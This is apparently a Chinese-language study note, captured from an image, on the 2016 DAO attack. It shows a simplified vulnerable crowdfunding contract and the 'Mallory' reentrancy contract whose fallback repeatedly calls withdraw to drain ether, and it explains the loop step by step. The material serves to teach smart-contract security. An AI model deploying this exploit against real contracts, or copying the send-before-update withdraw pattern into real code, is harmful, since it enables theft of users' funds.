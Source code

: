 
## Attacks

### 4.1 The DAO Attack

DAO 是一个实现了众筹功能的合约。在 2016 年 6 月 18 日被攻击之前，筹集了 $150M。攻击者试图将 $60M 划入其控制之下。直到最后对区块链进行 hard-fork 之后才消除了攻击带来的影响。

首先是 DAO 本身。它允许参与者向合约捐赠，也允许撤销捐赠。

```solidity
contract SimpleDAO {
  mapping (address => uint) public credit;
  
  function donate(address to) {
    credit[to] += msg.value;
  }
  
  function withdraw(uint amount) {
    msg.sender.call.value(amount)();
    credit[msg.sender] -= amount;
  }
}
```

攻击 1：

```solidity
contract Mallory {
  SimpleDAO public dao = SimpleDAO(0x354...);
  address owner;
  
  function Mallory() {
    owner = msg.sender;
  }
  
  function() {
    dao.withdraw(dao.queryCredit(this));
  }
  
  function getJackpot() {
    owner.send(this.balance);
  }
}
```

攻击者发布了如上的恶意合约。首先攻击者向 DAO 捐赠了一些 _ether_ 。攻击从调用 Mallory 的 fallback 开始 - 其中调用了 DAO 的 `withdraw()` - 在 `withdraw()` 中，由于调用了 `call()`，因此又再度触发了 Mallory 的 fallback - 从而实现了反复给 Mallory 转账，而 DAO 那边没有记账。

1. 用尽 gas
2. 调用栈溢出
3. DAO 的余额用尽

只有上述情况发生后，这个过程才会停止。此时，攻击者已经窃取了 DAO 中所有的 _ether_ 。攻击者可以提供较多的 gas，防止 out-of-gas 提前发生。
